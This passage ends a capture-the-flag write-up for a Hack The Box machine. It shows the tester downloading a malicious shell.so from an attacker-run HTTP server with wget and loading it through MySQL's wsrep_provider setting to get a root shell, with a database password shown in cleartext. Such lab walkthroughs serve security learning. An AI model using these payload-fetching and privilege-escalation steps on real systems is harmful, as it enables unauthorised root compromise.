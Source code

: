 We can start a python server so we can transfer the file on ipmi-svc using wget. 
```console
0xStarlight@kali$ python3 -m http.server 80
```

## <span style="color:lightgreen">ipmi-svc Machine</span>

Transfer the file, execute the payload and check on the listening listener to get a shell as root.
```console
ipmi-svc@shibboleth:/$ wget http://10.10.x.x/shell.so -o /tmp/shell.so
ipmi-svc@shibboleth:/$ mysql -u zabbix -p -D zabbix -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
password : bloooarskybluh
```

![image](https://user-images.githubusercontent.com/59029171/161686612-2a4d8f9f-2ea2-4711-ada7-538281026b4c.png)

# <span style="color:lightblue">Box Rooted</span>

![image](https://user-images.githubusercontent.com/59029171/161686774-cd12e45c-5bc3-4bc2-8c3d-b253dd05752f.png)

HTB Profile : [SecureYourGear](https://app.hackthebox.com/profile/244565)

If you find my articles interesting, you can buy me a coffee 

---

**Support SecureYourGear**: Master more [HackTheBox exploits](https://www.secureyourgear.com/categories/hackthebox/) and advanced [penetration testing techniques](https://www.secureyourgear.com/categories/red-teaming/).
